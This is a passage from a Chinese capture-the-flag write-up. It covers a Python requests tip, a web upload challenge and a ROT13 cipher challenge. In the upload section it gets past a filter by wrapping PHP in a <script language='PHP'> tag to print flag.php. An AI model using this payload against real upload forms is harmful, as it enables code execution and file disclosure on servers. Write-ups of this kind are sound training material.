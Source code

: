 在最后一次输出的内容里即包含flag

> p.s. 看了别人的 writeup， 使用的是 `r.content[0:2]`, 自己测试无效，最后发现还是 Python 版本的锅，在Python3 中 `r.content` 是 byte 类型，不能直接拼接字符串，而且转化成字符串后会有 `b'xxx'`的前缀，因此使用了 `r.text[0:2]`

## 0x002 Upload

> 分值：50分 类型：Web 题目名称：Upload  
题目内容：想怎么传就怎么传，就是这么任性。  
tips:flag在flag.php中 

**重点**：

```html
<script language="php">
    strtolower($str);
</script>
<!-- 绕过过滤的一种方法 -->

```

上传题，可以上传任意类型的文件，并且打开，于是尝试上传一段PHP代码

首先尝试：

```php
<?php
show_source('../flag.php');
```

返回内容为：

    show_source('../flag.'); 

发现 `<?php` 和 `php` 字样被过滤掉了，尝试使用大写 `PHP` 发现没有被过滤，但是 `<?` 还是被过滤了，查找资料后了解到一种方法：

```php
<script language='PHP'>
show_source('../flag.'.strtolower("PHP"));
</script>
```

上传成功获得flag



##0x003 所以这是13点吗

>分值：10分 类型：Misc 题目名称：所以这是13点吗
>
>题目内容：
>
>synt{mur_VF_syn9_svtug1at}

极可能是凯撒加密

测试确认是右移13位



## 0x004 嘀嘀嘀 
